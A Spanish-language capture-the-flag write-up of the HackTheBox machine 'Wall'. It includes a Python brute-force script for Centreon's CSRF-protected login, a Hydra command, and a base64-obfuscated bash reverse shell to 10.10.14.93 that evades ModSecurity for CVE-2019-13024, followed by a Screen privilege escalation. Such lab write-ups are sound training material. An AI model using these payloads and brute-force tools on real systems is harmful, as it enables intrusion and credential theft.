title: [Writeup] HackTheBox: Wall
tags: ctf, hackthebox, writeup, wall
slug: htb-wall-writeup
date: 2019-12-10



Comenzamos enumerando la máquina con **Nmap**

```
nmap -sV -sC -O -oN nmap 10.10.10.157
```


Podemos ver que tiene Apache corriendo en el puerto 80 en su versión 2.4.29 y que por lo visto tiene la página de inicio por defecto para Ubuntu. Si vamos a la IP en un navegador web se puede comprobar esto.



Algo importante a notar en la imagen es que tiene [ModSecurity](https://modsecurity.org) como vemos donde dice `mods-enabled`. Esto es particularmente importante por lo que veremos más adelante.

Continuando con los datos de Nmap podemos buscar vulnerabilidades conocidas para la versión de Apache en cuestión aquí, pero además de que no me enfoqué mucho en esto no encontré nada relevante en mí [búsqueda](https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-66/version_id-199811/Apache-Http-Server-2.4.20.html).

También vemos que tiene ssh instalado, se podría probar haciendo brute-force pero no me enfoqué en esto ni en la versión de Linux instalada tampoco.

Como a simple vista no vemos nada relevante que parezca sutil para un posible vector de ataque seguimos enumerando...ahora con **dirb** para enumerar directorios y archivos en el servidor web.

```
dirb http://10.10.10.157 /usr/share/dirb/wordlists/big.txt
```



**Nota**: _Yo usé el diccionario `big.txt` porque no me pareció suficiente lo que encontré con uno más pequeño...pero fue una pérdida de tiempo, resultó igual._

Podemos ver que encontró dos directorios: `monitoring` y `server-status`. Este último no me pareció nada interesante, además de que da error de `Forbidden`, por tanto lo obvié.

También podemos intentar algo diferente con `dirb` usando la opción `-X` para enumerar archivos `php` en vez de directorios.


Nada interesante, sin embargo. Los archivos mostrados arriba son rabbit holes.

`/monitoring`



Como puede verse es un directorio protegido con [HTTP Basic Authentication](https://en.wikipedia.org/wiki/Basic_access_authentication). Luego de probar algunas combinaciones e intentos fallidos de brute-forcing cambié de enfoque. Mayormente, luego de leer algunas sugerencias :)

Ahora intentaremos bypassear este login con técnicas de [HTTP Verb Tampering](https://www.owasp.org/index.php/Testing_for_HTTP_Verb_Tampering_(OTG-INPVAL-003)). Para esto corremos BurpSuite y lo configuramos también a Firefox para interceptar los requests del navegador. Entonces accedemos igualmente a `/monitoring` en el navegador mientras tenemos el proxy activo en BurpSuite. Enviamos el request a `Repeater` y probamos diferentes verbos de HTTP.



Como podemos ver en el `Response` el código retornado nos muestra una etiqueta `<meta>` con un refresh, lo que significa que con `POST` podemos bypassear esto. Así que podemos ir directamente a http://10.10.10.157/centreon. 


[Centreon](https://www.centreon.com/) es un sistema de monitoreo de aplicaciones, sistemas y redes de código abierto, nos dice la Wikipedia.

Tres cosas hice en este punto:

1. Intentar [credenciales por defecto](https://documentation.centreon.com/docs/centreon/en/2.8.x/installation/from_VM.html). 
2. Hacer brute-force al login.
3. Buscar vulnerabilidades conocidas para la versión v19.04.

El problema con el punto #2 es que este formulario tiene protección de `CSRF` por lo que no podemos usar **Hydra**. Por eso hice el siguiente script en Python para hacer brute-force al formulario de login.

```python
#!/usr/bin/env python

import requests
from bs4 import BeautifulSoup

url = 'http://10.10.10.157/centreon/index.php'
proxies = { 'http': 'http://127.0.0.1:8080' } # BurpSuite proxy
#wordlist_file = '/usr/share/wordlists/rockyou.txt'
wordlist_file = 'passwords.txt'

def get_token(html):
    soup = BeautifulSoup(html, 'html.parser')
    token_input = soup.find('input',attrs={'name': 'centreon_token'}) 
    token = token_input['value'] if token_input else None

    return token
 
def get_token_and_cookies():
    resp = requests.get(url, proxies=proxies)
    
    if resp:
        cookies = resp.headers['Set-Cookie'].split(';')[0] # I don't want 'Path = /' one
        token = get_token(resp.text)
        
        return token,cookies
    else:
        print("Request failed")
    

def login(username, password, token, cookies, proxies=None):
    _data = { 
              'useralias': username, 
              'password': password, 
              'centreon_token': token, 
              'submitLogin': 'Connect' 
            }

    _headers = {
                'Cookie': cookies, 
                'Content-Type': 'application/x-www-form-urlencoded', 
                'Accept-Encoding': 'gzip, deflate', 
                'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'
               }

    resp = requests.post(url, data=_data, headers=_headers, proxies=proxies)

    return resp


def is_valid_login(response):
    soup = BeautifulSoup(response.text,'html.parser')
    error_div = soup.find('div', class_='error_msg')
    
    if error_div:
        print(error_div.text)
        return False
    else:
        return True


def attack(username, passwords_file):
    with open(passwords_file,'r') as f:
        for passwd in f.read().split('\n'): # Not readlines() because I don't want extra '\n'
             token, cookies = get_token_and_cookies() 
             resp = login(username, passwd, token, cookies, proxies)
             if is_valid_login(resp):
                 print("\n\nWE DID IT! USERNAME: '{0}'| PASSWORD: '{1}'\n".format(username,passwd))
                 break
             else:
                 print('WRONG!!! Username={0} | Password={1}\n'.format(username,passwd))


def let_the_game_begin():
    attack('admin',wordlist_file)

if __name__ == '__main__':
    let_the_game_begin()
```

Este script me dio par de problemas inicialmente, pero fue un error de lógica de mi parte. Notar que usé el proxy de BurpSuite para monitorear los datos que enviaba y recibía, me servía para debugging. El archivo `passwords.txt` contiene las primeras 50 palabras del diccionario `rockyou.txt`. 



El primer brute-force exitoso lo hice en verdad con **Hydra** y luego me encargué de arreglar mi script :| Sí... recuerdo que dije que no se podía usar Hydra por el CSRF pero sucede que Centreon tiene una [API Restful](https://documentation.centreon.com/docs/centreon/en/19.04/api/api_rest/index.html) a la que sí podemos hacerle brute-force con Hydra.

```
hydra -v -l admin -P /usr/share/wordlists/rockyou.txt -t 4 10.10.10.157 http-post-form '/centreon/api/index.php?action=authenticate:username=admin&password=^PASS^:S=authToken'
```



*Las credenciales eran tan simples que debí haberlas encontrado sin necesidad de brute-forcing...*


Ahora procedemos a buscar vulnerabilidades conocidas para la versión del software. Rápidamente encontramos un CVE para esta versión sumamente interesante, ya que es un `Remote Code Execution` [CVE-2019-13024](https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/). La vulnerabilidad se debe a datos enviados por usuarios no "sanitados" debidamente en una porción del código dónde se ejecutan comandos en el sistema operativo. Ver todos los detalles en el link del CVE. El autor del CVE también desarrolló un exploit [centreon-exploit.py](https://gist.github.com/mhaskar/c4255f6cf45b19b8a852c780f50576da)

El exploit no me funcionó, así que lo modifiqué para que usara BurpSuite como proxy (tal cual como en el script arriba) y poder analizar mejor la data recibida y enviada. En muchas ocasiones la respuesta fue un `403: Forbidden`. Como entendía la vulnerabilidad luego de leer el artículo del autor del CVE además de haber visto el código del exploit y ya tenía el vector de ataque en BurpSuite lo intenté mejor manualmente y seguía dándome error de Forbidden o no ejecutando aparentemente el `payload`. 



Para no extenderme más, recordar que la página inicial por defecto del servidor web tenía habilitado `ModSecurity`, de modo que esta era la razón por la que daba error `403` al intentar enviar ciertos comandos por el exploit o directamente en la aplicación web. ModSecurity, el [Web Application Firewall (WAF)](https://es.wikipedia.org/wiki/Web_application_firewall) en el servidor estaba filtrando ciertos caracteres que enviábamos para evitar ataques. Entonces, tuvimos que aprender sobre [WAF Evasion Techniques](https://medium.com/secjuice/waf-evasion-techniques-718026d693d8). Luego de muchos intentos fallidos como pude explotar la vulnerabilidad fue de la manera siguiente:

1. Ir a Configuración > Pollers
2. Agregar o modificar un `poller` manualmente en la aplicación web y colocar el comando "malicioso" en el campo `Monitoring Engine Binary` y poner el campo `Localhost` como `Yes`.

Aquí hay que tener en cuenta que debemos usar una técnica apropiada para camuflar el comando "malicioso" y así bypassear el WAF. Para esto vamos a enviar el comando camuflado en base64 y otros caracteres especiales de bash. Usaremos un reverse shell con bash: 

```
echo 'bash -i >& /dev/tcp/10.10.14.93/9999 0>&1' | base64
```
```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45My85OTk5IDA+JjEK
```

Payload en bash:

```
echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45My85OTk5IDA+JjEK|base64${IFS}-d|bash;
```



Una vez le damos a `Save` ya no debería darnos error `403` porque hemos camuflado el comando malicioso con `base64` y palabras especiales de bash. En bash `${IFS}` es lo mismo que un espacio. Importante notar, que hemos terminado el comando con `";"`, para evitar un error de bash con lo que Centreon agrega luego (como se puede leer en el CVE). 

Ahora tenemos que llamar `generateFiles.php` especificando el "poller" creado para que ejecute nuestro payload. Para esto necesitamos BurpSuite configurado.

Nos ponemos a la escucha en el puerto 9999:

```
nc -lvnp 9999
```

Enviamos nuestro HTTP payload en BurpSuite con los datos correspondientes (PHPSESSID, debug=True, poller={id}, generate=True, etc) y obtenemos una shell como usuario `www-data`



## De www-data shell a root

Usando [LinEnu.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) script para enumerar podemos obtener algo como lo siguiente:



Podemos ver allí un programa que sobresale porque tiene la versión especificada. Este es el programa para manejo de sesiones de consola `Screen`. Si buscamos en la web vulnerabilidades para Screen 4.5.0 podríamos encontrar este exploit [Local Privilege Escalation](https://www.exploit-db.com/exploits/41154), exactamente lo que necesitamos.


Primero verificamos el código antes de ejecutar (siempre verificar antes). No esta demás leer sobre la [vulnerabilidad](https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html) tampoco. Parece consistir en que esta versión de `screen` hace un chequeo de un archivo de log como superusuario, el exploit trunca el archivo o crea uno nuevo con un payload malicioso para obtener una shell de root.

Ejecutamos...




Got root?



## Terminando...

Creo que las razones por la que se puede bypassear la autenticación básica al principio es porque sólo esta limitado al método HTTP `GET`, por eso usando HTTP `POST` nos permite ver el contenido en ese directorio. Un problema de configuración, además de un método no muy seguro de autenticación. Ver imagen abajo con archivos que extraje de la máquina.


Una vez rooteada la máquina quise saber porque razón me fallaban casi todos los payloads de ataque que usaba en Centreon, con error de `Forbidden`. Así que extraje las reglas de `modsecurity` del servidor, directorio `/etc/modsecurity`, y encontré lo siguiente:



Mis dudas quedaron aclaradas ahí, terminaba casi todos los comandos con `#` al final para invalidar lo que Centron agregaba en el backend. Como se puede ver también bloquea comandos con ncat y otros.


